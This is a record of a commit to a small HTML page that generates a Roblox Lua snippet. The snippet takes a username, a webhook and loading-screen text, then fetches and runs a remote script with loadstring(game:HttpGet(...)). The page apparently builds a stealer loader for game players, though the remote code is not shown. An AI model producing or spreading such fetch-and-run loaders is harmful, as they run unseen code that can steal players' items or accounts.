

Before and after one commit to psxscripter1337/gen, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "Sample", "Sample", "Sample" into the empty fields and a click on the button "Generate". Shown: the part 193-816 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -47,7 +47,7 @@
        document.getElementById("submit").onclick = function() {myFunction()};
 
 function myFunction() {
-    scriptarea.innerHTML = '_G.UserName = "'+nameInput.value+'"\n_G.Webhook = "'+hookInput.value+'"\n_G.loadingScreenText = "'+lscreenInput.value+'"\nloadstring(game:HttpGet("https://raw.githubusercontent.com/psxscripter1337/psxs/main/main.lua"))()'
+    scriptarea.innerHTML = 'UserName = "'+nameInput.value+'"\nWebhook = "'+hookInput.value+'"\nloadingScreenText = "'+lscreenInput.value+'"\nloadstring(game:HttpGet("https://raw.githubusercontent.com/psxscripter1337/psxs/main/main.lua"))()'
 }
 </script>
 </body>
```
